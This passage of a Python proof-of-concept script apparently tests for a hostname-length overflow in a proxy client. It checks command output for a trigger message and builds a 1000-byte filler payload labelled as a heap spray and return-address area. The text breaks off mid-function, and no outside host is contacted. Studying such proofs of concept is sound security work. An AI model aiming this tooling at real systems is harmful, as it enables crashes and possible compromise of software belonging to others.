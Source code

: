         try:
            result = subprocess.run(cmd, capture_output=True, text=True, timeout=10)
            
            # Analyze output for vulnerability indicators
            stderr_output = result.stderr
            
            # Look for the specific vulnerability trigger message
            if "server resolving disabled for hostnames of length > 255" in stderr_output:
                print(f"[!] VULNERABILITY CONFIRMED!")
                print(f"[!] Found trigger message for {length} character hostname")
                vulnerability_confirmed = True
                
                # Extract the specific message
                for line in stderr_output.split('\n'):
                    if "server resolving disabled" in line:
                        print(f"[!] Message: {line.strip()}")
                        break
            
            print(f"[*] Return code: {result.returncode}")
            
        except subprocess.TimeoutExpired:
            print("[*] Command timed out (expected for non-existent proxy)")
        except Exception as e:
            print(f"[!] Error: {e}")
    
    return vulnerability_confirmed

def create_exploit_payload():
    """Create a sample exploit payload"""
    print("\n" + "="*60)
    print("[*] EXPLOIT PAYLOAD CREATION")
    print("="*60)
    
    # Create a payload with heap spray pattern
    payload_size = 1000
    
    # Pattern for heap exploitation
    pattern_a = "A" * 200  # Heap spray pattern
    pattern_b = "B" * 200  # Overflow detection
    pattern_c = "C" * 200  # Control data
    pattern_d = "D" * 200  # Return address area
    remaining = payload_size - len(pattern_a + pattern_b + pattern_c + pattern_d) - 4
    pattern_e = "E" * remaining
    
    payload = pattern_a + pattern_b + pattern_c + pattern_d + pattern_e + ".com"
    
    print(f"[*] Exploit payload created:")
    print(f"    Length: {len(payload)} bytes")
    print(f"    Pattern: {payload[:50]}...{payload[-20:]}")
    print(f"    Truncated length: {len(payload) & 0xFF}")
    print(f"    Overflow bytes: {len(payload) - (len(payload) & 0xFF)}")
    